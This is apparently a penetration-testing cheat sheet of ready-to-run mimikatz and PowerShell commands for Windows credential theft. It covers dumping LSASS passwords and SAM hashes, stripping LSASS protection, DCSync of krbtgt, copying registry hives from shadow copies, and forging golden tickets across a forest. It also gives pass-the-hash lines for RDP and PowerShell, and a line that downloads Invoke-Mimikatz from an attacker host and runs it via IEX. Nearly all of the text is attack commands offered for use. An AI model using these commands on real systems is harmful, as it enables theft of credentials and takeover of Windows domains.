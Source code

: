 # mimikatz

% mimikatz, passwords

## mimikatz onliner
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## powershell - load mimikatz
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/Invoke-Mimikatz.ps1') | IEX
Invoke mimikatz
```

## mimikatz disable PPL and dump passwords
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"
```

## mimikatz dcsync - user (krbtgt/Administrator)
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz extract credentials from dump
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```

## mimikatz extract credentials from shadow copy (1)
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## mimikatz extract credentials from shadow copy (2)
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER

Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract on hand shadow volume copy
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, ad

## mimikatz extract tickets
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
sekurlsa::tickets /export
```

## mimikatz - forest extra SID
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID
	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth
## mimikatz pth to RDP mstsc.exe
#platform/windows  #target/local  #cat/PIVOT 
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

## mimikatz pth run powershell remotelly
#platform/windows  #target/local  #cat/PIVOT 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```